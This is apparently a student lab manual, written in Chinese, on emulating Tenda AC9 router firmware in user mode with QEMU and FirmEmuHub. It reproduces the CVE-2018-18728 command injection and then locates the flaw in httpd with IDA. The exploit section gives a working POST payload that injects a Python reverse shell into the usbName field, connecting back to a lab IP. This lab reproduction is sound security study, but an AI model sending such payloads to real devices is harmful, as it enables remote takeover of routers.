# ⽤户态固件仿真实验⼿册
---
## 1.实验目的
1. [x] 掌握⽤户态固件仿真的基本原理和技术
2. [x] 使⽤ FirmEmuHub ⼯具进⾏⽤户态固件仿真
3. [x] 复现 Tenda AC9 固件中的漏洞
---
## 2.实验环境
- 主机系统:Kali

- 硬件要求:
  - CPU:支持虚拟化技术
  - 内存:>4GB
  - 存储:≥10G空间
- 软件要求:
  - Git
  - Docker(确保能成功拉取到dockerhub上的镜像)
  - Python 3.8+
  - IDA Pro
---
## 3.实验步骤
### 第一部分:本地构建⽤户态仿真实验环境：Tenda AC9
1. **安装qemu和⽹络配置⼯具**


```bash
sudo apt-get install qemu  
sudo apt-get install qemu-user-static 
sudo apt-get install qemu-system 
apt-get install bridge-utils uml-utilities 
```

这里使用 kali 安装时，qemu 安装失败，但是 qemu-system 安装成功，后续步骤仍能够正常进行

1. **⽹络配置**

修改宿主机的网络配置文件：

```bash
sudo vim /etc/network/interfaces
```

```
auto lo 
iface lo inet loopback 

auto eth1
iface enp0s8 inet dhcp 

auto eth1
iface br0 inet dhcp 
bridge_ports eth1
bridge_maxwait 0 
```



其中 eth1 为我的虚拟机对应的 hostonly 网卡


然后在在`/etc/qemu-ifup`添加如下内容：

```bash
#! /bin/sh
echo "Executing /etc/qemu/ifup"
echo "Bringing up $1 bridged mode..." 
sudo /sbin/ifconfig $1 0.0.0.0 promisc up 
echo "Adding $1 to br0..." 
sudo /sbin/brctl addif br0 $1 
sleep 3 
```

对之前修改的文件添加权限并重置网络配置：

```bash
sudo chmod a+x /etc/qemu-ifup 
sudo systemctl restart systemd-networkd.service 
```

安装`ifupdown`然后设置网口：

```bash
sudo apt install ifupdown 
sudo ifdown br0 && sudo ifup br0 
```



3. **开启路由器Web服务**

在下面 FirmEmuHub 的路径中找到需要的压缩包并进行解压：

```
FirmEmuHub/Benchmark/BM-2024-00012/emulation/firmware/tenda_ac9.zip
```



进入解压后的文件目录并将对应的 qemu ⽤户态静态启动程序拷⻉到当前路径，以便在 chroot 环境下使⽤
 
```bash
sudo cp /usr/bin/qemu-arm-static qemu-arm-static 
```



对环境进行修复：

```bash
cp -r webroot_ro/* webroot/ 
```



同时对 bin/httpd 赋权

```bash
ls -l bin/httpd 
chmod +x bin/httpd 
```



启动`qemu`,启动仿真环境:

```bash
sudo qemu-arm -L ./ bin/httpd 
```

会在`br0`对应的 ip 的 80 端口中打开一个管理网页






### 第⼆部分：⽤户态固件仿真环境搭建
该部分在上次实验中已经实现

1. **克隆 FirmEmuHub 仓库**

```bash
git clone https://github.com/a101e-lab/FirmEmuHub.git 
cd FirmEmuHub 
```

1. **安装依赖**

```bash
pip install -r requirements.txt 
```

### 第三部分：⼀键固件仿真

1. **启动 Tenda AC9 仿真环境**


在 FirmEmuHub 目录中执行下面的命令，启动环境:

```bash
sudo python3 emulation.py -b ./Benchmark/BM-2024-00012 
```

2. **Web界⾯访问**

浏览器中访问`宿主机ip:32768`,进入 web 管理页面



### 第四部分：漏洞复现

本次复现漏洞为 CVE-2018-18728 命令注⼊漏洞，该漏洞存在于 Tenda AC9 路由器的固件中，允许攻击者执⾏任意系统命令。

漏洞原理：

命令注⼊漏洞出现在 httpd 中的代码，但程序通过POST请求传⼊的参数中的 action 参数符合条件时，usbName 参数会被直接传⼊ doSystemCmd() 中执⾏，因此可能造成任意代码执⾏


1. **准备Payload**


根据漏洞原理可以构建如下的 payload ：

```python
password=111111&premitEn=0&internetPort=21&action=del&usbName=;
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.33.107",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
&guestpwd=guest&guestuser=guest&guestaccess=r&fileCode=UTF-8 
```

2. **使⽤⼯具发送请求**

使用 yakit 工具构建 POST 请求，将上述 payload 作为请求体发送,同时在宿主机上开启一个 8888 端口的监听：



可以发现成功反弹 shell ，在宿主机的终端中成功连接了容器的 shell

3. **验证漏洞利⽤结果**



### 第五部分：漏洞逆向分析

首先找到httpd所在的位置：



将其传输到宿主机后使用宿主机的 IDA 进行逆向返汇编，根据漏洞报告中提及的函数名称查找具体的漏洞函数：



定位之后进行分析,发现当传入的 action 参数符合条件时，usbName 参数会被直接传⼊ doSystemCmd() 中执⾏



找到其中执行系统命令的那个函数，其读取了我们注入的命令，并在系统中执行了我们的命令（**doSystemCmd()**）



---
## 遇到的问题与解决方法

- 第一步中 kali 的 `apt` 无法安装其中的 qemu 软件包，更新 `apt` 和换源都没有成功，但是其他的几个安装成功，并没有影响正常的使用，依旧能够正常启动仿真环境打开web网页端

- 在使用 docker 进行漏洞利用时有没有回收之前本地仿真导致的网络配置，使得hostonly网卡的 ip 丢失，连不上 `ssh`，外部 `ping` 虚拟机 hostonly ip 也失败。通过删除之前配置的 interface 的网卡配置并重启网络或重启虚拟机后，网络配置恢复正常。


